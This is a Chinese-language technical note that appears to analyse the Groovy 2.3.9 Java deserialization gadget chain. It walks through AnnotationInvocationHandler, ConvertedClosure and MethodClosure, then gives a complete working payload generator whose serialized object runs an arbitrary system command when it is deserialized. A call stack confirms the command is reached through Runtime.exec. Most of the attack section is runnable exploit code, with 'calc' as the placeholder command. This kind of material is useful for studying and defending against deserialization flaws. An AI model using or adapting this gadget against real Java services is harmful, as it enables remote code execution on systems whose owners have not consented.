


- 测试Grovvy 版本 v2.3.9 


### InvocationHandler 接口


#### AnnotationInvocationHandler 类

- 实现了InvocaHandler接口



##### 构造方法 AnnotationInvocationHandler

- sun.reflect.annotation.AnnotationInvocationHandler#AnnotationInvocationHandler
  - 参数
    - Annotation 类型
    - Map 类型


##### 成员方法 readObject

- sun.reflect.annotation.AnnotationInvocationHandler#readObject
  - 该方法被反序列化时一定会被调用


361行：执行了memberValues 属性的 entrySet 方法。

##### 属性 memberValues

- sun.reflect.annotation.AnnotationInvocationHandler#memberValues

#### ConversionHandler 类

- 实现了 InvocationHandler接口


##### 成员方法 invoke


#### ConvertedClosure 类

- 这个类是一个通用的适配器，用来适配一个闭包到任意的Java接口


##### 成员方法 invokeCustom

- org.codehaus.groovy.runtime.ConvertedClosure#invokeCustom
  - ConvertedClosure的method参数必须等于触发动态代理时调用的方法名


### Closure 抽象类


#### MethodClosure 类

- org.codehaus.groovy.runtime.MethodClosure
  - 使用一个闭包表示的一个类上的方法，这个方法可以在任何时候被调用


##### 成员方法 doCall

- 通过方法 `InvokerHelper.invokeMethod()` 进行方法调用

```java
package groovy;

import org.codehaus.groovy.runtime.MethodClosure;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class doCall {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
        Method doCallM  = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
        doCallM.setAccessible(true);
        doCallM.invoke(methodClosure, "calc");
    }
}
```

可反射调用执行系统命令，如下图：




前置知识

- Groovy执行命令的语法：`"command".execute()`

- 当通过动态代理对象调用一个方法时候，该方法的调用就会被转发到实现InvocationHandler接口类的invoke方法来调用

- newProxyInstance方法的三个参数：

  - loader:  用哪个类加载器去加载代理对象
  - interfaces:  动态代理类需要实现的接口

  - h:  动态代理方法在执行时，会调用h里面的invoke方法去执行


构造payload

```java
// 对cmd字符串执行execute命令的闭包
MethodClosure methodClosure = new MethodClosure(cmd,"execute");
// 适配entrySet方法的ConvertedClosure闭包
ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
// 创建动态代理
Map<?, ?> mapProxy = (Map<?, ?>) Proxy.newProxyInstance(Groovy_entrySet.class.getClassLoader(), new Class< ? >[] { Map.class }, closure);
// 创建AnnotationInvocationHandler实例（通过反射）
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructors()[0];
constructor.setAccessible(true);
Object annotationInvocationHandler = constructor.newInstance(Retention.class, mapProxy);
```

解释如下：

当annotationInvocationHandler对象的序列化数据被反序列化时，会调用readObject()

- readObject() 调用 memberValues.entrySet()
  - ConversionHandler.Invoke() 调用 ConvertedClosure.invokeCustom()
    - getDelegate()).call() 调用 getMetaClass().invokeMethod() // 递归调用
      - method.doMethodInvoke() 调用 ProcessGroovyMethods.execute()
        - Runtime.getRuntime().exec()

最终gadget如下

```java
import java.io.*;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.lang.reflect.Constructor;
import java.lang.annotation.Retention;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

public class Groovy_entrySet {
    public static void main(String[] args){
        Groovy_entrySet.generatePayload("calc");
    }
    public static void generatePayload(String cmd){
        try{
            MethodClosure methodClosure = new MethodClosure(cmd,"execute");
            ConvertedClosure closure = new ConvertedClosure(methodClosure,"entrySet");
            Map<?, ?> mapProxy = (Map<?, ?>) Proxy.newProxyInstance(Groovy_entrySet.class.getClassLoader(), new Class< ? >[] { Map.class }, closure);
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor constructor = clazz.getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            Object annotationInvocationHandler = constructor.newInstance(Retention.class, mapProxy);
            ByteArrayOutputStream byteArray = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArray);
            objectOutputStream.writeObject(annotationInvocationHandler);
            objectOutputStream.close();
            /**
             * 笔记：打印字节数组
             *       System.out.print(Arrays.toString(data));
             */
            byte[] data = byteArray.toByteArray();
            // 将字节数组反序列化为对象
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果


调用栈

```java
execute:530, ProcessGroovyMethods (org.codehaus.groovy.runtime)
doMethodInvoke:-1, dgm$748 (org.codehaus.groovy.runtime)
invokeMethod:1207, MetaClassImpl (groovy.lang)
invokeMethod:1074, MetaClassImpl (groovy.lang)
invokeMethod:1016, MetaClassImpl (groovy.lang)
call:423, Closure (groovy.lang)
invokeCustom:51, ConvertedClosure (org.codehaus.groovy.runtime)
invoke:103, ConversionHandler (org.codehaus.groovy.runtime)
entrySet:-1, $Proxy0 (com.sun.proxy)
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:2122, ObjectInputStream (java.io)
readOrdinaryObject:2013, ObjectInputStream (java.io)
readObject0:1535, ObjectInputStream (java.io)
readObject:422, ObjectInputStream (java.io)
generatePayload:37, Groovy_entrySet (groovy)
main:14, Groovy_entrySet (groovy)
```
